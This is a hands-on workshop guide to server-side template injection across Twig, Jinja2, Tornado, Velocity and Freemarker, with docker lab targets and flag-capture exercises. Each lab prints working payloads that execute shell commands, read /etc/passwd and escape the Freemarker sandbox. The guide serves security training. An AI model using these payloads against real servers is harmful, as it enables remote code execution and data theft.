







id: template-injection-workshop
summary: Template engines are libraries mainly used to design views for web applications. Their use helps simplify common design tasks for developers. However, their use may introduce new risks if they are used in an improper way. Template injection is a vulnerability class that has emerged in 2016. The exploitation of this type of issue will require specific knowledge associated with the template library or the language being used underneath. Knowing vulnerability basics is often insufficient to be effective. For these reasons, we are proposing a practical workshop that focuses on template injection vulnerabilities. The training will cover various template engine in different programming languages (PHP, Python and Java).
authors: Philippe Arteau


# Template Injection in Action

<!-- =========================== -->

## Introduction
Duration: 00:05:00

Welcome to this 2-hour workshop on Template Injection. Template injection, also known as Server-Side Template Injection (SSTI), is a vulnerability class that has emerged in 2015. The 2015 Black Hat talk from James Kettle established the foundations for the exploitation techniques in multiple template engines. The exploitation of this type of issue will require specific knowledge of the template library or the language being used under the hood.

The workshop is divided in six labs and an introduction. First, there will be an introduction to the vulnerability. This segment is needed to get a good understanding of the attack patterns to recognize potential vulnerabilities.
Then we will investigate five different template engines with unique twists. Each template engine will have an exercise which consists of a web application with a template engine being exposed.


- Introduction
  - Template Injection
  - Identifying Template Engine
- Template Engines
  - Twig (PHP)
  - Jinja2 (Python)
  - Tornado (Python)
  - Velocity (Java)
  - Freemarker (Java)

### Requirements

The only requirement is to have an HTTP interception proxy installed.

 - [Burp Suite](https://portswigger.net/burp)
 - [OWASP ZAP](https://www.zaproxy.org/download/)


Negative
: If you only have a web browser, you won't be able to reproduce the steps provided. You can still follow the workshop by reading the content and watch the demonstrations.

### Running the applications

In order to do the exercise, you will need to run the [lab applications](https://github.com/GoSecure/template-injection-workshop) by yourself. All applications were built with a docker container recipe. This should make the deployment easier.


1. Download the code.
```
$ git clone https://github.com/GoSecure/template-injection-workshop
```
2. Read build instructions (`%application_dir%/README.md`) This step will differ for each application.
3. Use docker-compose to start the application.
```
$ docker-compose up
```

### Optional DNS configuration

In order to make the links work, you can optionally add an entry to your local host file. (`/etc/hosts` or `C:\Windows\system32\drivers\etc\hosts`)
```
127.0.0.1   template-injection.gosec.co
```


### Video presentation

You can watch the complete workshop on video. From the video, you will be able to listen to all the tutorials and see the demonstrations for all exercises.
Open the [YouTube page in a new window](https://youtu.be/I7xQZOvZzIw) to see the chapters.

<video id="I7xQZOvZzIw"></video>


## Template Injection 


A template engine enables you to use static template files in your application. At runtime, the template engine replaces variables in a template file with actual values, and transforms the template into an HTML file sent to the client. This approach makes it easier to design an HTML page.

Although the templates were deployed statically, the advent of highly configurable service (SaaS) led several template libraries to be exposed directly on the internet. These seemingly very limited libraries are actually much more powerful than some developers might think.



### Example of Data Binding

In a template, the developer will define both static content and place holder for dynamic values. At runtime, the template will be processed by its engine to map dynamic values references in the template.

```
Hello {{firstName}} {{lastName}}!
```
***Example of simple template***

Template is a form of script that will do much more than just simple data binding. Because data structure can be complex (think about list and nested objects), templates provide some capabilities similar to programming. For instance, the template engine might allow to reach field from objects, .


```
Hello {{user.firstName}} {{user.lastName}}!
```
***Example of nested properties***

Nested properties like the above will not be evaluated directly by the language. The dynamic value `user.firstName` inside the place holder will be parsed by the engine. The engine will make under the hood the call to the method or field firstName.
The syntax is generally simple and compact for ease of use. The syntax is often powerful enough to escape the context of simple data binding.


### Thinking outside the box

In order to abuse a template engine, the attacker will need to take advantage of the capabilities made available.

If the engine allows the access of fields, we might be able to access interesting internal data structure. Internal data structure could have interesting state to override. They may expose powerful types.

If the engine allows function calls, we are coming to target function that read files, execute commands or access internal states of the application.

The six exercises in today's workshop aim to show a variety of techniques to reach a similar goal.

<!-- =========================== -->

## Identifying Template Engine
Duration: 00:05:00

There are plenty of template libraries. We can find dozens of libraries per programming language. In practice, if we limit ourselves to the most popular, we can focus on two or three potential libraries when we know the language used.

- C# (StringTemplate, ASPX which is used dynamically on Sharepoint)
- Java (Velocity, Freemarker, Pebble, Thymeleaf and Jinjava)
- PHP (Twig, Smarty, Dwoo, Volt, Blade, Plates, Mustache, Python, Jinja2, Tornado, mustache and String Template)
- Go (text/template)


### Heuristics

Instead of blindly testing every known payload, it is best to confirm with some level of confidence the technology used. The final payload might require some adjustments to take into account the specific runtime environment.

James Kettles as come up with this  decision tree which can be used to identify the template technogoly used. It is composed of simple evaluation. Those expression will not work with every technology. Because these are very basic expression, they are less likely to become obsolete when a new version of a library is released. Method names allowed and advanced syntaxes are likely to evolve over time.



***Fig 1: Detection tree ([Source PortSwigger Blog](https://portswigger.net/research/server-side-template-injection))***


<!-- =========================== -->

## LAB 1: Twig (PHP)
Duration: 00:20:00


### Introduction

Twig is probably the most popular template library in PHP. It was developed by the creator of Synfony a very popular PHP framework. In a bonus exercise, we will use Craft CMS a content management system using internally Twig.

### Template syntax basics

Twig syntax is simple and compact syntax. Here are a few examples of basic variable binding.

```js
Hello {{ var }}
Hello {{ var|escape }}
```
*Basic variable binding*

Reference: [Official Twig documentation](https://twig.symfony.com/)

### Opportunity for exploitation

Twig a variable `_self` which make public a few internal Twig API. Here is a malicious payload that was created to take advantage of the `registerUndefinedFilterCallback` function. In the payload below the command `id` is executed returning the id from the current user (Linux).

```js
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
*Example of command execution*

### Workshop exercise


For this exercise, connect to the web server [http://template-injection.gosec.co:8012/](http://template-injection.gosec.co:8012/).

It will contain a very simple form with only one field. 




In this form, you can submit a simple expression to confirm that a template is used to display a value. The expression bellow will do a subtraction.

```
{{1338-1}}
```
*This subtraction should display 1337 as result*


```js
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
*Executing the id command*

The result of the id command should be:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Can you access to the file `flag.txt` on the server?


<!-- =========================== -->

## LAB 2: Jinja2 (Python)
Duration: 00:20:00


### Introduction

Jinja is a popular template engine in Python. It is a template that is very similar to Django template. Compared to Django templates, Jinja can be easily used dynamically at runtime. Django templates are designed to be dynamic views which are stored in static files.

### Template syntax basics

Here are few simple expressions that illustrate the basic syntax.

```js
//String
{{ message }}
//Accessing an attribute
{{ foo.bar }}
//Accessing an attribute (alternative)
{{ foo['bar'] }}
```
*Basic variable binding*


Reference: [Official Jinja documentation](https://jinja.palletsprojects.com/en/2.10.x/templates/)

### Opportunity for exploitation

Python metadata properties can be read from any Python object. Method calls are also not filtered. Accessing powerful operations such command execution is, however, not trivial.


#### Jinja exploitation basics

We can access the class from the metaproperties `__class__`.
```
{{''.__class__}}

<type 'str'>
```

From any class, we can get the Method Resolution Order (MRO) object. The MRO object contains the hierarchy of class for the current type.
```
{{''.__class__.__mro__}}

<type 'str'>, <type 'basestring'>, <type 'object'>
```


From the type object that we have previously found, we list all its subclasses. Effectively, enumerating all classes loaded the current context. The classes available will depends on the import made by the application. Imports can't be triggered easily in Jinja2.
```
{{''.__class__.__mro__[2].__subclasses__()}}

<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'> [...]
```

We can pick any type from the previous list and call methods from those. The element at index 40 in the object subclasses list is `<type 'file'>` (`{{''.__class__.__mro__[2].__subclasses__()[40]`). We can use this type to read arbitrary files.

```js
{{''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd","r").read()}}

//The previous extension is analog to
file("/etc/passwd","r").read()
```

Negative
: The last payload is Python 2.7 specific.


References: 

 - [Exploring SSTI in Flask/Jinja2 - Part 2](https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/)
 - [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)


#### Using subprocess.Popen

One of the powerful types to look for is `subprocess.Popen`.

On Python 3.8, it is likely to be index 245. This index is subject to change depending on the modules loaded.
```
{{[].__class__.__mro__[1].__subclasses__()[396]}}

<class 'subprocess.Popen'>
```


On Python 2.7, it is likely to be index 245.
```
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>
```

Executing command:
```
{{[].__class__.__mro__[1].__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}
```


#### Alternative os object (Python 2.7)

There is an interesting type that we can be abused `<class 'warnings.catch_warnings'>`. It has a cache of all python modules available. From the instance we can reach the os module.

```
WARNINGS_INSTANCE.__init__.func_globals['linecache'].__dict__.values()[12]

<module 'os' from '/usr/lib/python2.7/os.pyc'>
```

Source: [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)


Applying this interesting pattern to Jinja template. We have the following payload.

```
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd')}}
```

Here is a two-step payload that executes a command and store the result temporarily in the temp folder. The result is later read from another Jinja expression.

```js
{{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd') }}{{''.__class__.__mro__[2].__subclasses__()[40]("/tmp/cmd","r").read() }}
```

Negative
: These payload are Python 2.7 specific.


### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8013/](http://template-injection.gosec.co:8013/).



First, you must detect **which HTTP parameter** is placed inside a template. You can use simple arithmetic expressions for this.

Use the above recipe to leverage the vulnerability to its full potential.

Can you access to the file `flag.txt` on the server?


<!-- =========================== -->

## LAB 3: Tornado (Python)
Duration: 00:20:00


### Introduction

Tornado template is an engine that is part of Tornado a popular Python web framework. This exercise will probably be the easiest. It should demonstrate that simply reading the library documentation can sometimes reveal powerful functionalities.

### Template syntax basics

```
Hello {{userName}}
```
*Basic data binding*

### Exploitation opportunity

It is much easier that Jinja2. Because it supports the `import` directive. The implementation of this directive is analog to the Python import.
```

```

Positive
: `import` directive requires only one brackets `{...}`.

Here is a complete payload which imports the `os` module and execute the method `popen` (process open).
```

{{os.popen("whoami").read()}}
```


### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8014/](http://template-injection.gosec.co:8014/).



This service is simulating an email being sent every time you submit the form.

Use the above recipe to leverage the vulnerability.

Can you access to the file `flag.txt` on the server?

<!-- =========================== -->


## LAB 4: Velocity (Java)
Duration: 00:20:00


### Introduction


Velocity is one of the most popular Java template engines. Freemarker is another very popular alternative. Velocity was chosen for this workshop because it is a bit harder to exploit.

### Template syntax basics

Reference: [Official Velocity documentation](https://velocity.apache.org/engine/1.7/user-guide.html)

### Opportunity for exploitation

The original payload found by James Kettles requires the activation of an optional plugin called ClassTool.
```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```

Negative
: In this workshop, the plugin will not be enabled.


Velocity has variable assignment. 

```js
#set( $foo = "bar" )

$foo
```

This pattern is used to access interesting types.
Here is a payload that allow the execution of command without any optional plugin.

```js
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8005/](http://template-injection.gosec.co:8005/).

To access the administrative features, use the credentials `admin` / `123456`.



Use the above recipe to leverage the vulnerability.

Can you access to the file `flag.txt` on the server?


<!-- =========================== -->


## LAB 5: Freemarker (Java)
Duration: 00:15:00


### Introduction

Freemarker is another popular Java template engine. Its development is slightly more active than Velocity.

### Template syntax basics

```
${message}

${user.displayName}
```


Reference: [Official Freemarker documentation](https://freemarker.apache.org/docs/dgui_datamodel_basics.html)

### Opportunity for exploitation

#### Built-ins

Freemarker has a specific list of built-in function (often called built-in in Freemarker documentation). These [built-in functions](https://freemarker.apache.org/docs/ref_builtins_expert.html) can be suffixes to variable. For example, `${nbAverageUsers}` can be transformed to `${nbAverageUsers?abs}`.

```xml
abs, absoluteTemplateName, ancestors, api, 
boolean, byte, 
c, capFirst, capitalize, ceiling, children, chopLinebreak, chunk, contains, counter, 
date, dateIfUnknown, datetime, datetimeIfUnknown, default, double, dropWhile, 
endsWith, ensureEndsWith, ensureStartsWith, esc, eval, exists, 
filter, first, float, floor, 
groups, 
hasApi, hasContent, hasNext, html, 
ifExists, index, indexOf, int, interpret, isBoolean, isCollection, isCollectionEx, isDate, isDateLike, isDateOnly, isDatetime, isDirective, isEnumerable, isEvenItem, isFirst, isHash, isHashEx, isIndexable, isInfinite, isLast, isMacro, isMarkupOutput, isMethod, isNan, isNode, isNumber, isOddItem, isSequence, isString, isTime, isTransform, isUnknownDateLike, iso, isoH, isoHNZ, isoLocal, isoLocalH, isoLocalHNZ, isoLocalM, isoLocalMNZ, isoLocalMs, isoLocalMsNZ, isoLocalNZ, isoM, isoMNZ, isoMs, isoMsNZ, isoNZ, isoUtc, isoUtcFZ, isoUtcH, isoUtcHNZ, isoUtcM, isoUtcMNZ, isoUtcMs, isoUtcMsNZ, isoUtcNZ, itemCycle, itemParity, itemParityCap, 
jString, join, jsString, jsonString, 
keepAfter, keepAfterLast, keepBefore, keepBeforeLast, keys, 
last, lastIndexOf, leftPad, length, long, lowerAbc, lowerCase, 
map, markupString, matches, max, min, 
namespace, new, nextSibling, noEsc, nodeName, nodeNamespace, nodeType, number, numberToDate, numberToDatetime, numberToTime, 
parent, previousSibling, 
removeBeginning, removeEnding, replace, reverse, rightPad, root, round, rtf, 
seqContains, seqIndexOf, seqLastIndexOf, sequence, short, size, sort, sortBy, split, startsWith, string, substring, switch, 
takeWhile, then, time, timeIfUnknown, trim, truncate, truncateC, truncateCM, truncateM, truncateW, truncateWM, 
uncapFirst, upperAbc, upperCase, url, urlPath, 
values, 
webSafe, withArgs, withArgsLast, wordList, 
xhtml, xml
```
*Exhaustive list of all built-in*

[Most built-ins](https://freemarker.apache.org/docs/ref_builtins_expert.html) are really primitive and uninteresting from a security standpoint. But there is one that standout: `new`. We can read the following notice in the official documentation.

Negative
: "This built-in can be a security concern because the template author can create arbitrary Java objects and then use them, as far as they implement `TemplateModel`. Also the template
 author can trigger static initialization for classes that don't even implement `TemplateModel`."
 Ref: [Freemarker docs: Built-in new](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new)


#### Execute class

Following the guidelines describe, we can invoke the `exec()` function (entry method for `TemplateModel`). By design the `Execute` class allows us to execute command and get the result in the form of a string. 

```xml
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```


### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8025/](http://template-injection.gosec.co:8025/).

To access the administrative features, use the credentials `admin` / `hackfest`.



Use the above recipe to leverage the vulnerability.

Can you access to the file `flag.txt` on the server?

### Potential defense mechanism

It is worth mentioning that Freemarker does provide a way to restrict the classes reference in templates. The next exercise will implement a `ClassResolver` as describe in the documentation.

Negative
: You can (since 2.3.17) restrict the classes accessible with this built-in using `Configuration.setNewBuiltinClassResolver(TemplateClassResolver)` or the `new_builtin_class_resolver` setting. See the Java API docs for more information. If you are allowing not-so-much-trusted users to upload templates then you should definitely look into this topic.
 Ref: [Freemarker docs: Built-in new](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new)

<!-- =========================== -->


## LAB 6: Freemaker (Sandbox escape)
Duration: 00:15:00


### Sandbox in Freemarker

Freemarker has the capability to filter which class can be access.
For instance, a subclass of the class `TemplateClassResolver` needs to be implemented. This class will decide if the class reference in the template is allow or not.

```xml
<ul>
<#list .data_model?keys as key>
<li>${key}</li>
</#list>
</ul>
```
or
```
${.data_model.keySet()}
```


### Finding a reference to a classloader

Instances of the class Classloader have the potential to give us remote code execution (RCE). For instance, classloaders could be providing method load classes (Java bytecode) from external source.

Here is a list of common place where a Classloader might be returned.

 - `java.lang.Class.getClassLoader()`
 - `java.lang.Thread.getCurrentClassLoader()`
 - `java.lang.ProtectionDomain.getClassLoader()`
 - `javax.servlet.ServletContext.getClassLoader()`
 - `org.osgi.framework.wiring.BundleWiring.getClassLoader()`
 - `org.springframework.context.ApplicationContext.getClassLoader()`

This API will translate into the following Freemarker syntax.

```js
//java.lang.Object.getClass() -> java.lang.Class.getClassLoader()
${any_object.class.classLoader}
//javax.servlet.ServletRequest -> javax.servlet.ServletContext.getClassLoader()
${request.servletContext.classLoader}
```

### Not all classloader are equals

[Classloaders](https://docs.oracle.com/javase/9/docs/api/java/lang/ClassLoader.html) may have a common subclass. Their implementation differ alot. Different web containers (web server hosting a Java application) will have different classloader at runtime. Therefore we need to ajust our payload to target the right one.


#### Read file / directory listing

```xml
<#assign uri = classLoader.getResource("META-INF").toURI() >
<#assign url = uri.resolve("file:///etc/passwd").toURL() >
<#assign bytes = url.openConnection().inputStream.readAllBytes() >
${bytes}
```
(Payload taken from [Room for Escape: Scribbling Outside the Lines of Template Security](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf))

In our tests, we realize that bytes array are not converted automatically to a string. One way to circumvent this limitation is to extract one byte at the time.

```
${bytes[0]}
${bytes[1]}
${bytes[2]}
[...]
```

Positive
: Keep in mind that the bytes are printed in decimal format.

#### Universal method

Oleksandr Mirosh and Alvaro Muñoz are detailing in their paper Room for Escape various chains that are specific to web containers. These containers are Tomcat, Jetty, GlassFish, WebLogic and WebSphere. These are a great source of inspiration if you are looking to escape the sandbox other than Freemarker.

However if your objective is to exploit the current template engine, there is a universal payload (also from the same paper) that will work on Freemarker 2.3.29 and lower (Fixed in March 2020). You need to find a variable in the data model that is an object.

```xml
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```

Here is a template that will brute force all of the variables from the data model.
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("id")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8026/](http://template-injection.gosec.co:8026/).

The application is the same as the previous one with one important difference. It is configured with some very limited class filtering. You will not be able to use the Execute class directly.

To access the administrative features, use the credentials `admin` / `hackfest`.

Negative
: This application is very similar visually to the previous one. Verify that you are connected to the port `8026`.

<!-- =========================== -->


## Conclusion

Duration: 00:02:00

Template engines are very powerful. They need to be considered as scripts. Script needs to be either very well sandbox. If sandboxing is not possible, user permission can be used to limit the access these risky features. In many cases, they will allow compromising of the underlying operating system.

### References

 - Server-Side Template Injection [[Slides]](http://blog.portswigger.net/2015/08/server-side-template-injection.html) | [[White-paper]](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
 - Scribbling Outside the Lines of Template Security [[Slides]](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security.pdf) | [[White-paper]](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf)
 - [Exploitation of Server Side Template Injection with Craft CMS (Twig template)](http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/)
 - [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)